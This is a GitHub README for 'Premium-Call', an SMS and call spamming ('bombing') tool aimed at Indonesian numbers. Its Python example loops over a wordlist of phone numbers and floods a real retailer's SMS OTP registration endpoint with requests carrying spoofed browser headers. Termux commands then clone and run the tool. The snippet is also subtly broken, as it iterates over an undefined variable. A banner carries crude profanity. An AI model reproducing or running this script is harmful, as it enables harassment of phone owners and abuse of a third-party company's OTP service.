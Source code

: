 # Premium-Call Tools
<p align="center">
<img src="https://img.shields.io/static/v1?label=Author&color=green&message=Dusttale &logo=Acclaim&logoColor=white&style=for-the-badge"><br>
Tools Spam Call Unlimited (+62)
https://t.me/SariiRooti
</p>
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Minimal+Kasi+Star+lah+kontol+!" alt="UwU">
</p>

## How To Create Non Stop With Python
<details open>
  <summary><strong> Non Stop/Reapeat </strong></summary>

  ```bash
  Example:
  import time

  repeat=input("Your Input: ")
  while True:
        print (repeat)
        time.sleep(0.5)
  ```
  </details>

## How To Create Massive?
<details open>
  <summary><strong> Multi Target </strong></summary>

  ```bash
  Example:
  import os,sys,time #default module python
  import requests,json

  def massive():
  	try:
  		wordlist=open('wordlist.txt','r').readlines()
  		for line in gas:
  			strip=line.strip()
  			post=requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":strip})).text
  			print (post)
  			time.sleep(10) # You are free to set the time to a few seconds
  	except KeyboardInterrupt:
  		sys.exit("Stop Tools.")
  
  massive()
  ```
  </details>

# Info
<p align="center">
  <a href="https://github.com/AmmarrBN"><img src="http://readme-typing-svg.herokuapp.com?color=FFFFFF&center=true&vCenter=true&multiline=false&lines=Recode/Decode?+Ampas+(trash)+🚮" alt="UwU"
</p>

<details open>
  <summary><strong> Install Package + Run Script (AmmarrBN)</strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install python
  pkg install git
  pkg install python2
  git clone https://github.com/AmmarrBN/Premium-Call
  cd Premium-Call
  pip install -r requirements.txt
  python call.py
  ```
  </details>

<details open>
  <summary><strong> Update Tools(AmmarrBN)</strong></summary>

  ```bash
  cd && rm -rf Premium-Call
  git clone https://github.com/AmmarrBN/Premium-Call
  cd Premium-Call
  pip install -r requirements.txt
  python call.py
  ```
  </details>
